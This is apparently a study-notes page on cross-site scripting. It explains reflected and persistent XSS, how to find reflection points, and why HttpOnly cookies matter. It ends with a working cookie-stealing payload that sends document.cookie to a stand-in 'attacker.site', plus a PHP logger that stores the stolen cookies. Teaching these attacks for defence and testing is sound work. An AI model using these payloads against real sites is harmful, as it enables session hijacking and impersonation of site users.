 # Cross Site Scripting

Cross Site Scripting (XSS) is a vulnerability that lets an attacker control some of the content of a web application

By exploiting a XSS, the attacker can target the web app users

An attacker can:

* Modify the content of the site at run-time
* Inject malicious contents
* Steal the cookies, thus the session, of a user
* Perform actions on the web app as if it was a legitimate user
* And much more

XSS vulnerabilities happen when a web app uses unfiltered user input to build the output content displayed to its users

This lets an attacker control the output HTML and JS code, thus attacking the app users

User input is any parameter coming from the client side of the web app such as:

* Request headers
* Cookies
* Form inputs
* POST parameters
* GET parameters

Such inputs should be validated server side by well-implemented security functions that should sanitize or filter users' input

{% hint style="danger" %}
Never, ever, trust user input!
{% endhint %}

Most of the time, victims of XSS attacks are the users/visitors of a site (could even be an admin)

XSS involves injecting malicious code into the output of a web page, which is then rendered (or executed) by the browser of the visiting users

It can be really hard to notice an attack in progress because most of the time, attacks are very subtle and do not involve any visible change to the vulnerable site

Attackers user XSS to attack the users of a website by:

* Making their browsers load malicious content
* Performing operations on their behalf, like buying a product or changing a password
* Stealing their session cookies, thus being able to impersonate them on the site

## Finding an XSS

You have to look at every user input, and test if it is somehow displayed on the output of the web application

![A search parameter is submitted through a form and gets displayed on the output (Reflection point). Searched string is passed through a GET parameter](<../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png>)

After finding a reflection point, you have to understand if you can inject HTML code and see if it somehow gets to the output of the page; this lets you control the output page

Looking at the HTML sources of the output page helps to understand how to build an XSS payload

![](<../../../../.gitbook/assets/image (4) (1) (1) (1).png>)

![The injected \<i> tag outputted "test string" in italics so the HTML has been interpreted](<../../../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1).png>)

To test the XSS, you can inject some valid HTML/JS code like:

```javascript
<script>alert('XSS')</script>
```

Although according to this video, we should be mindful when doing that

{% embed url="https://www.youtube.com/watch?t=73s&v=KHwVjzWei1c" %}

To exploit an XSS vulnerability, you need to know the type of XSS attack you are carrying out: reflected, persistent or DOM based

## Reflected XSS Attacks

Happen when the malicious payload is carried **inside the request** that the browser of the victim sends to the vulnerable website

Triggered by posting a link on a social network or via a phishing campaign. When users click on the link, they trigger the attack

Some browsers like Chrome have a reflected XSS filter built in so they will not run some XSS reflected attacks

![](<../../../../.gitbook/assets/image (18) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

However, they can only filter trivial and known XSS attacks since there are advanced methods that can bypass anti-XSS filters

## Persistent XSS Attacks

Cannot be blocked by Anti-XSS filters

Occur when the payload is sent to the vulnerable web server and then **stored**.&#x20;

* When a web page of the vulnerable website pulls the stored malicious code and puts it within the HTML output, it will deliver the XSS payload.

Malicious code gets delivered each and every time a web browser hits the "injected" web page.

The most common vector for persistent attacks are HTML forms that submit content to the web server and then display that content back to the users

* Elements like comments, user profiles, and form posts are a potential vector for attacks

Example: If an attacker manages to inject a malicious script in a forum post, every person opening that post will run the script; this, for example, could let an attack silently steal visitors' cookies and impersonate them without even knowing their login credentials



## Cookie Stealing via XSS

JS can access cookies if they do not have the HttpOnly flag enabled

In many cases, stealing a cookie means stealing a user session

For example, you can display the current cookies using:

```javascript
<script>alert(document.cookie)</script>
```

![](<../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png>)

This code sends cookie content to an attacker-controlled site

```javascript
<script>
var i = new Image();
i.src="http://attacker.site/log.php?q="+document.cookie;
</script>
```

The script generates an image object and prints its `src` to a script on the attacker's server

The browser cannot tell in advance if the source is a real image, so it loads and executes the script, even without displaying any image which means the cookie is actually sent to the attacker.site

```php
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>
```

The `log.php` script saves the cookie in a text file on the attacker.site
